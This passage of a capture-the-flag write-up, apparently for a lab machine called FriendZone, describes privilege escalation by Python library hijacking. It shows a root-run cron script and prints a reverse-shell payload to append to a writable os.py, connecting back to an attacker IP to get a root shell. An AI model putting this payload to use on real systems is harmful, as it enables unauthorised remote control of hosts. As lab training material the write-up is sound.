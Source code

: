 Ok, root is executing this file every two minutes.
## Python Library Hijacking
The script is using `os` library.
```py
#!/usr/bin/python

import os

to_address = "admin1@friendzone.com"
from_address = "admin2@friendzone.com"

print "[+] Trying to send email to %s"%to_address
#command = ''' mailsend -to admin2@friendzone.com -from admin1@friendzone.com -ssl -port 465 -auth -smtp smtp.gmail.co-sub scheduled results email +cc +bc -v -user you -pass "PAPAP"'''
#os.system(command)
# I need to edit the script later
# Sam ~ python developer
```

![14-os](14-os.png)

And we have write access to `os.py` this means we can insert a reverse shell at the end of the file and it will be executed when the `os` module is imported.

```py
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.14.89",443))
dup2(s.fileno(),0)
dup2(s.fileno(),1)
dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"]);
```

Set up a netcat listener port on 443 and we got root!!

![15-root](15-root.png)

That’s it for now guys. Until next time.

# Resource

Topic|URL
-|-
Python Library Hijacking|[https://medium.com/analytics-vidhya/python-library-hijacking-on-linux](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)

